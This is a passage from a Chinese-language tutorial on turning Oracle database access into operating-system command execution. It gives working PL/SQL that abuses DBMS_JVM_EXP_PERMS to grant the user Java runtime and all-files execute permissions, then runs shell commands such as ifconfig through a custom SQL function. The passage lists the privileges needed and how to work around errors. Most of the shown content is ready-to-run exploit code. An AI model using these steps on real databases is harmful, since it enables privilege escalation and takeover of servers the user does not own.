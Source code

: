``` sql
CURSOR C1 IS SELECT 'GRANT',USER(),'SYS','java.lang.RuntimePermission','readFileDescriptor',NULL,'ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
```

执行命令：

``` sql
select LinxRUNCMD('/sbin/ifconfig') from dual;
```

![1609349737895.png](https://i.loli.net/2021/03/06/1QHu5zcgKAkMCU6.png)



### 2. 创建存储进程执行命令

> 测试环境：
> Oracle Database 11g Enterprise Edition Release 11.2.0.1.0 - 64bit
> Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - 64bit
> 
> 权限要求：
> + `CREATE SESSION`
> + `CREATE PROCEDURE`
> 
> 有时执行命令也会碰到这种报错，此时需要为用户赋予java的对应权限，最好执行前先执行一次dbms_xmlquery中赋予那三个权限的命令
> 
> 如果你已经创建完javae函数在执行命令时发现了这个报错，那么要再执行一次2.sql，然后再执行javae函数
> 
> ![1609388627245.png](https://i.loli.net/2021/03/06/b2Va4lJdgvmBXOz.png)

将下面文件分别保存为

1.sql：

``` sql
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 
'GRANT',USER(),'SYS','java.io.FilePermission',
'<<ALL FILES>>','execute','ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
```
